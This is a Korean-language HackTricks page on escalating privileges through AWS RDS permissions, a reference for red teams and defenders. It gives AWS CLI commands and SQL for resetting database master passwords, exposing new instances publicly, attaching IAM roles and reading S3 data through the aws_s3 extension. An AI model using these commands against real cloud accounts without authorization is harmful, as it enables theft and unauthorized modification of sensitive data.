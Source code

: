 # AWS - RDS 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 제출하세요.

</details>

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

해당 권한을 가진 공격자는 **마스터 사용자의 비밀번호를 수정**하고 데이터베이스 내부 로그인을 변경할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연락할 수 있는 능력**이 있어야 합니다 (일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적인 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행하여 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 접속한 것을 알 수 있습니다.
{% endhint %}

먼저이 데이터베이스가 다른 AWS 서비스에 액세스하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장 기능을 확인하여 이를 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 발견하면 이 데이터베이스가 **어떤 종류의 S3 액세스**를 가지고 있는지 가정할 수 있습니다 (다른 확장자로는 **`aws_ml`** 및 **`aws_lambda`** 등이 있음).

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면 **`AssociatedRoles`** 필드에서 **연결된 IAM 역할**이 있는지 확인할 수 있습니다. 만약 있다면, 이 데이터베이스가 **다른 AWS 서비스에 액세스할 수 있도록 준비**되었다고 가정할 수 있습니다. **역할의 이름** (또는 **역할의 권한**을 얻을 수 있다면)을 기반으로 데이터베이스가 어떤 추가 액세스를 가지고 있는지 **추측**할 수 있습니다.

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **원시 AWS 자격 증명**을 가지고 있다면 다음을 사용하여 S3 데이터에 액세스할 수도 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql은 S3에 액세스하기 위해 어떤 매개변수 그룹 변수도 변경할 필요가 없습니다.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Mysql 내에서 쿼리 **`SELECT User, Host FROM mysql.user;`**를 실행하고 **`rdsadmin`**이라는 사용자가 있다면 **AWS RDS mysql db**에 있는 것으로 가정할 수 있습니다.
{% endhint %}

Mysql 내에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**과 같은 변수에 값이 있다면 데이터베이스가 S3 데이터에 액세스할 수 있도록 준비되어 있는 것으로 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 권한이 있다면 클러스터에 **연결된 역할**이 있는지 확인할 수 있습니다(일반적으로 AWS 서비스에 액세스할 수 있는 것을 의미합니다).

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할을 기존 RDS 인스턴스에 추가**할 수 있습니다. 이로 인해 공격자가 **민감한 데이터에 액세스**하거나 인스턴스 내의 데이터를 수정할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 액세스하거나 데이터를 무단으로 수정할 수 있습니다.\
일부 DB는 추가 구성이 필요할 수 있습니다. 예를 들어 Mysql은 aprameter 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만 있으면 공격자는 이미 존재하고 IAM 역할이 연결된 클러스터 내에 **새 인스턴스**를 생성할 수 있습니다. 그는 마스터 사용자 암호를 변경할 수는 없지만 새 데이터베이스 인스턴스를 인터넷에 노출시킬 수도 있습니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
할 일: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 첨부된 새로운 RDS 인스턴스를 생성**할 수 있습니다. 공격자는 그런 다음 **민감한 데이터에 액세스**하거나 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
첨부해야 하는 역할/인스턴스 프로필의 일부 요구 사항([**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적인 영향**: RDS 인스턴스 내의 민감한 데이터에 액세스하거나 데이터를 무단으로 수정할 수 있음.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **특정 역할을 기존 RDS 인스턴스에 추가**할 수 있습니다. 이로 인해 공격자가 인스턴스 내의 **민감한 데이터에 액세스**하거나 데이터를 수정할 수 있을 수 있습니다.

{% hint style="warning" %}
이 작업을 수행하려면 DB 인스턴스가 클러스터 외부에 있어야 함
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적인 영향**: RDS 인스턴스의 민감한 데이터에 대한 액세스 또는 데이터에 대한 미인가 수정.

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF 형식의 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>
